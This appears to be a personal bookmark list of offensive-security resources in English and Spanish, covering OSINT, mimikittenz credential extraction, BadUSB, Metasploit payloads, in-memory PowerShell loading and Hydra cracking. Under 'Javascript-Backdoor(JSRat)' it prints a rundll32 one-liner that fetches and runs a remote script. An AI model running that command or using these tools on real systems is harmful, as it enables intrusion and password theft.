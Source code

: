 # Wireless IDS [Intrusion Detection System]
Ability to detect suspicious activity such as (WEP/WPA/WPS) attack by sniffing the air for wireless packets. https://github.com/SYWorks/wireless-ids

# OSINT Framework
http://osintframework.com/

# SpiderFoot 2.12 - Automates OSINT to find out everything possible about your target
https://www.kitploit.com/2018/03/spiderfoot-212-automates-osint-to-find.html

# Pliego Sistema de Registro de Nombres de Pasajeros
https://www.ecestaticos.com/file/c53a91545ca895eb95215b5e6a1108fd/1469191837.pdf

# Ofuscación
https://twitter.com/404death/status/968116331479314434

# mimikittenz
- mimikittenz is a post-exploitation powershell tool that utilizes the Windows function ReadProcessMemory() in order to extract plain-text passwords from various target processes.
- mimikittenz can also easily extract other kinds of juicy info from target processes using regex patterns.

https://github.com/putterpanda/mimikittenz

# Pwned Passwords
https://haveibeenpwned.com/Passwords

# Javascript-Backdoor(JSRat)
```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/test")
```

# BadUSB
- https://thehackerway.com/2017/07/10/badusb-ultra-low-cost/
- https://github.com/ernesto-xload/DigisparkKeyboard
- https://github.com/ernesto-xload/arduino_keyboardlib
- https://github.com/ernesto-xload/DigisparkKeyboard
- https://github.com/uslurper/digiduck
- https://mg.lol/blog/

# Fundamentos de Metasploit #2
https://www.securityhacklabs.net/2018/02/21/fundamentos-de-metasploit-2/

# Spawn TTY Shell using Msfvenom (One Liner Payload)
http://www.hackingarticles.in/spawn-tty-shell-using-msfvenom-one-liner-payload/

# Cargar en memoria y ejecutar un payload de ejecución de comandos arbitrarios en PowerShell
https://www.jesusninoc.com/2017/02/16/cargar-en-memoria-y-ejecutar-un-payload-de-ejecucion-de-comandos-arbitrarios-en-powershell/

# PowerShell: inyección en memoria usando CertUtil.exe e Invoke-CradleCrafter
http://www.hackplayers.com/2018/06/powershell-inyeccion-en-memoria-usando-certutil.html

# Using Hydra To Crack The Door Open
https://hakin9.org/usinghydratocrackthedooropen/
